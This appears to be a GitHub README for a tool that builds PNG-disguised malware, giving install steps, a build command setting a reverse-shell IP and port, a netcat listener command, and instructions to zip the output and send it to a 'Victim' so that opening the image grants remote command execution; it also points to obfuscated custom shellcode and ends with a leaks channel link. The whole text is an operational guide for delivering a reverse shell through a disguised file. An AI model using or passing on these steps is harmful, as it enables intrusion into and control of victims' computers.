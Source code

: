 # X-malicious-image-builder
png malware for initial access and open rev sockets

## installation
`git clone https://github.com/hunt3rub/X-image-malware.git`<br/>
`pip install requirements.txt`

## how to build PNG malware?
### 1- build malicious PNG picture:
`python3 main.py -reverse-ip 192.168.1.1 -reverse-port 4242 -img custom-picture.png`<br/>
### 2- zip or rar build folder:
open build folder and `zip all files`.
see a picture with png format and two hidden picture.

### 3- open listener:
`nc -lvnp 4242`<br/>
> [!NOTE]
> you must open port 4242 in firewall and have static ip.

### 4- send zip folder to Victim:
after open PNG file you can access to victim and exec command!

## customized shellcode:
open shellcode.py and set your custom payload with obfuscate.<br/>

### for free gaza<br/>
telegram channel: https://t.me/our_leaks
